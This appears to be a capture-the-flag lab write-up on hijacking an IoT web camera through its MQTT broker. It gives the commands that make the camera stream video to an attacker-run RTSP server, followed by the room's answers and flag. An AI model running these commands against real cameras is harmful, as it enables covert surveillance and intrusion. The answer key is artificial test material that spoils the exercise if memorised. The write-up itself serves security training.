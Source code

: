 ```

```

- device topics =  `device/init` device ID , `device/<id>/cmd` subscribes to device id specific topic to receive commands & settings
- ` device/init: JUQGOQX0RH714YRQXIWM `
- device is known a `RSTP (real time streaming protocol)` for input streaming `device/<id>/cmd` 

we have the source code snippet to look at `IoTdevice.py` which is a web camera

build a message JSON
` {”CMD”:value,”URL”:"value"} `
source code has `target_cmd = "10" `
the url value should be `eth0 or ens0` 
`RSTP://x.x.x.x:8554/path`


`{"cmd": "10", "url": "<listening url>" }`

start a RTSP server with Docker

```
docker run --rm -it --network=host aler9/rtsp-simple-server

# ... RTSP listerner 8554

# {"cmd": "10", "url": "rtsp://10.10.19.10:8554/path" }

# new tab in terminal
mosquitto_pub -h 10.10.65.26 -t device/JUQGOQX0RH714YRQXIWM/cmd -m """{"cmd":"10","url":"rtsp://10.10.19.10:8554/hackingfun"}"""

# look at listening terminal tab, shows connection
# RTSP [conn 10.10.65.26:57754]

# other tab
vlc rtsp://127.0.0.1:8554/hackingfun

# opens VLC 
THM{UR_CAMERA_IS_MINE}

```


What port is `Mosquitto` running on?
- 1883

Is the _device/init_ topic enumerated by Nmap during a script scan of all ports? (y/n)
- Y

What `Mosquitto` version is the device using?
- 1.6.9
  
What flag is obtained from viewing the RTSP stream?
- `  THM{UR_CAMERA_IS_MINE} `

